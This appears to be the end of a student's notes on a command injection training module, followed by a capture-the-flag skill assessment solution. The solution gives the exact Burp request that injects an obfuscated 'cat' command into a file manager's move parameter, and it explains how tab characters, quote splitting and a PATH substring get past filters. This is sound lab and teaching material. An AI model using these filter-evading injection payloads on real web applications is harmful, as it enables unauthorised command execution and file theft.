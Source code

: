 In the end, even after all of these security mitigations and configurations, we have to perform the penetration testing techniques we learned in this module to see if any web application functionality may still be vulnerable to command injection. As some web applications have millions of lines of code, any single mistake in any line of code may be enough to introduce a vulnerability. So we must try to secure the web application by complementing secure coding best practices with thorough penetration testing.

## Skill Assessment
You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

Solution: open Burpsuite and try to move a file to tmp folder and catch that request by putting it on Burp Repeater. The correct injection is:
`GET /index.php?to=tmp&from=$(c'a't%09${PATH:0:1}flag.txt)51459716.txt&finish=1&move=1 HTTP/1.1`

Note: I use encoded tab `%09` as space because end-line `%0a` and space `%20` characters are filtered.

The output of the program renderer in Burp will be:
```
Error while moving: mv: cannot stat
'/var/www/html/files/HTB{<flag>}51459716.txt': No such file or directory
```